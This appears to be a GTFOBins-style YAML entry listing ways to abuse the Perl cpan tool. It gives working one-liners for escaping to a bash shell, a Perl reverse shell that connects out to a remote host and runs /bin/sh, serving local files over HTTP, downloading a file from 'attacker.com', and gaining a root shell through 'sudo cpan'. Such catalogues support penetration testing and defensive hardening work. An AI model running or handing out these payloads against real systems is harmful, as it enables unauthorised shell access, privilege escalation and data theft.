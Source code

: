 ```yaml
---
functions:
  shell:
    - description: cpan lets you execute perl commands with `! command`
      code: |
        cpan
        ! exec '/bin/bash'

  reverse-shell:
    - description: Run ``nc -lvp RPORT`` on the attacker box to receive the shell.
      code: |
        export RHOST=localhost
        export RPORT=9000
        cpan
        ! use Socket; my $i="$ENV{RHOST}"; my $p=$ENV{RPORT}; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};

  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8080. Install dependency via `cpan HTTP::Server::Simple`.
      code: |
        cpan
        ! use HTTP::Server::Simple; my $server= HTTP::Server::Simple->new(); $server->run();

  file-download:
    - description: Fetch a remote file via HTTP GET request and store it in PWD.
      code: |
        export RHOST=attacker.com
        export DFILE=evil.txt
        cpan
        ! use File::Fetch; my $file = (File::Fetch->new(uri => "http://$ENV{RHOST}/$ENV{DFILE}"))->fetch();

  sudo:
    - code: |
        sudo cpan
        ! exec '/bin/bash'

---
```

